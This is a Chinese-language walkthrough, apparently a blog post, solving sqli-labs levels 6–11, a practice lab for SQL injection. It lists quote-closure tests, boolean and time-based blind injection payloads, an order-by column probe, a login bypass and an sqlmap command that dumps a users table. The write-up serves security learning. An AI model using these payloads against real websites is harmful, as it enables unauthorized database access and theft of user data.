 ## less-6
与第5关类似，只不过这一关使用的是" "的方式闭合字符串，我们只需要将?id=1' 改为 ?id=1",后面的参数不变，其余过程不再赘述，和less-5一样。
sqlmap同样可以直接爆破，payload后的参数和less-1一样。

## less-7
输入`?id=1'`报错，经几次测试后发现只有在后面添加 ' 会报错，但是这次后台对报错进行了处理，所有错误都显示语法错误。
我们利用单引号进行进一步注入：`?id=1' and sleep(3)--+`还是报错，猜测是不是过滤了某些字符，
测试过滤字符：`?id=1' and sleep(3) or 1='1`发现显示正常了，发现后台过滤了的注释字符,通过盲注一步步判断
判断数据库的第一个字符是s：`?id=1' and ascii(substr((select database()),1,1))=115 and 1='1`
显示正常，说明数据库的第一个字符的acsll值为115，即为s。
一步步尝试，过程比较麻烦，使用脚本比较方便。
可直接sqlmap跑一下，payload后的参数和less-1一样。

## less-8
这一个和less-7差不多，把报错全部过滤了，如果错误就没有返回，正确就返回you are in……，而其注释符没有被过滤，我们就可以利用基于布尔的盲注进行测试：
判断数据库的第一个字符是s：`?id=1' and ascii(substr((select database()),1,1))=115--+`
一步步尝试，过程比较麻烦，使用脚本比较方便。
可直接sqlmap跑一下，payload后的参数和less-1一样。

## less-9
无论输入什么都是返回相同的内容，报错注入无效了，尝试一下时间盲注：
判断是否有注入：`?id=1' and sleep(3)--+`，停留了3s后刷新，说明存在注入点。
其他的和less-7差不多，只是在最后要加上`and sleep(3)--+`来判断对错。
判断数据库的第一个字符是s：`?id=1' and ascii(substr((select database()),1,1))=115 and sleep(3)--+`
一步步尝试，过程比较麻烦，使用脚本比较方便。
可直接sqlmap跑一下，payload后的参数和less-1一样。

## less-10
和less-9类似，只是闭合符号变成了 '' ，
检查是否存在注入：`?id=1'' and sleep(3)--+`,停留了3s后刷新，说明存在注入点。其他的和less-9一样了，
判断数据库的第一个字符是s：`?id=1'' and ascii(substr((select database()),1,1))=115 and sleep(3)--+`
一步步尝试，过程比较麻烦，使用脚本比较方便。
可直接sqlmap跑一下，payload后的参数和less-1一样。

## less-11
**方法一：**
页面显示变了，不再是get方式传递参数，改为post方式传参，通过尝试发现闭合方式为 ' ,先使用万能钥匙登陆，登陆成功。
![万能密码登陆](https://s2.ax1x.com/2019/03/05/kjlLIx.png)
查看是否有注入点，爆字段试试，
![爆字段](https://s2.ax1x.com/2019/03/05/kj1ItP.png)
开始尝试`order by 3#`提示错误，最终确定`order by 2#`正常，接着判断回显内容，并爆数据库，
![爆数据库](https://s2.ax1x.com/2019/03/05/kj3etx.png)
爆表名，
![爆表名](https://s2.ax1x.com/2019/03/05/kj3zbd.png)
爆列名，
![爆列名](https://s2.ax1x.com/2019/03/05/kjG3FI.png)
爆数据，
![爆数据](https://s2.ax1x.com/2019/03/05/kjGwwj.png)
**方法二：**
还可以借助sqlmap软件直接爆破
最终payload：`./sqlmap.py -u "http://localhost/sqli-labs/Less-11/" --data="uname=*&passwd=*" -D security -T users --dump`
